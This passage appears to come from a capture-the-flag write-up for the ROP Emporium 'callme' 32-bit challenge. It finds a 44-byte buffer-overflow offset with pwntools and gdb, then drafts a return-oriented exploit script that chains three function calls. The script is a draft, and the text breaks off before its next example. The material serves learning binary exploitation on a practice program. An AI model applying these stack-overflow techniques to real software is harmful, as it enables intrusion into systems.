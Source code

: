 So, I now have the three addresses that I need.
Let's find the padding now. I used `pwntools` to accomplish this.
```python
>>> from pwn import cyclic,fit
>>> cyclic(50)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama'
```
What `cyclic` does is create a string pattern that you can use to get the padding (if big enough) to overwrite the return address.
I used `gdb` to help me.
```
$ gdb ./callme32 -q
Reading symbols from ./callme32...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/pwn/ropemporium/callme/32/callme32
callme by ROP Emporium
32bits

Hope you read the instructions...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
(gdb) x/x $eip
0x6161616c:     Cannot access memory at address 0x6161616c
(gdb)
```
`r` starts up the program.
`0x6161616c in ?? ()` shows that `eip` has been overwritten.
I double checked with `x/x $eip`.
I then used the `fit` function from `pwntools`.
```python
>>> fit({0x6161616c:'B'})
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaaB'
>>> len(_)
45
```
The length of the padding is 44 because the output of `fit` is the string pattern _and_ a B, and the B is where it starts overwriting, so I need one less byte.

# Writing an exploit
I started writing an exploit script with the information that I had.
```python
from pwn import *

payload = 'A'*44 # padding
payload += p32(0x080485c0) # callme_one(1,2,3)
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x08048620) # callme_two(1,2,3)
payload += p32(1)
payload += p32(2)
payload += p32(3)
payload += p32(0x080485b0) # callme_three(1,2,3)
payload += p32(1)
payload += p32(2)
payload += p32(3)

print payload
```
Why `p32` does is "pack" an 32-bit integer.
Here's an example:
```
```